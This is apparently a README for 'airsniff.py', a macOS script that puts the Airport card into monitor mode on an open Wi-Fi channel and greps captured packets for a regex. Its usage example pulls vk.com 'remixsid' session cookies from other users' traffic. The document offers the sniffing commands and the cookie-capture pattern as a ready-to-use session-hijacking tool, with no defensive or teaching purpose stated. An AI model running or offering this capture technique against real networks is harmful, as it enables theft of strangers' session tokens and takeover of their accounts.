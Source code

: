 This is quite simple script. You can do all this stuff manually without the script.

It uses Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### How it works: 

* Swithes Airport card into monitor mode on selected channel.
```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find out what channel number is used on your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* In cycle matches your regexp in .cap file and excluding duplicate strings.

#### Usage:

```sudo airsniff.py <channel> <\"pattern\">````

 **channel** — wifi channel

 **\"pattern\"** — regexp that will grep /tmp/*.cap file. Quotes and backslashes required!

Example for vk.com:

```airsniff.py 10 \"remixsid=[a-z0-9]{68}\"```

